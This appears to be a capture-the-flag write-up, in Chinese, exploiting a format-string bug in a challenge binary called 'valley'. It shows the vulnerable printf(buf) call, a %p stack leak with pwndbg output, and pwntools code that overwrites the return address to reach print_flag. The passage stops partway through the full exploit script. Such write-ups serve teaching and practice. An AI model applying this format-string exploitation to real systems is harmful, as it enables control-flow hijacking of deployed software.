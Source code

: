 程式裡有 `fmt` 的漏洞

```c
	if (fgets(buf, sizeof(buf), stdin) == NULL) {
	  printf("\nEOF detected. Exiting...\n");
	  exit(0);
	}
	...
	printf("You heard in the distance: ");
	printf(buf);
```

透過 address leak 找到 `main+18` 和 `old rbp` 所在的 address
```bash
Welcome to the Echo Valley, Try Shouting: 
%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p
You heard in the distance: 0x7ffd38170500-(nil)-(nil)-0x5588a94876ef-0x4-0x70252d70252d7025-0x252d70252d70252d-0x2d70252d70252d70-0x70252d70252d7025-0x252d70252d70252d-0x2d70252d70252d70-0x70252d70252d7025-0xa70252d70252d-(nil)-(nil)-(nil)-(nil)-(nil)-0x89faff230cb09400-0x7ffd38170730-0x5588a44e5413
```

```bash
pwndbg> x/i 0x5588a44e5413
   0x5588a44e5413 <main+18>:    mov    eax,0x0
```

```bash
pwndbg> stack 100
00:0000│ rax rcx rsp 0x7ffd381706b0 ◂— 0x70252d70252d000a /* '\n' */
...
0d:0068│-008         0x7ffd38170718 ◂— 0x89faff230cb09400
0e:0070│ rbp         0x7ffd38170720 —▸ 0x7ffd38170730 ◂— 1
```

之後分別算出 `PIE` 的 base 和放 return address 的 address 後透過 [fmtstr](https://docs.pwntools.com/en/dev/fmtstr.html) 工具算出 fmt offset 後 修改目標位置的值
```python
def send_payload(payload):
   p = elf.process()
   p.sendline(payload)
   l = p.recvall(timeout=1)
   p.close()
   return l

offset = FmtStr(send_payload).offset
```
```python
payload = fmtstr_payload(offset=offset, writes={rip_point_to: print_flag_addr}, write_size='short')
```

完整 exploit
```python
from pwn import *

elf = context.binary = ELF('./valley')

def send_payload(payload):
   p = elf.process()
   p.sendline(payload)
   l = p.recvall(timeout=1)
   p.close()
   return l

offset = FmtStr(send_payload).offset
info("offset = %d", offset)
 
fmt_payload = b"%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p"
leak_offset = 0x1413
```
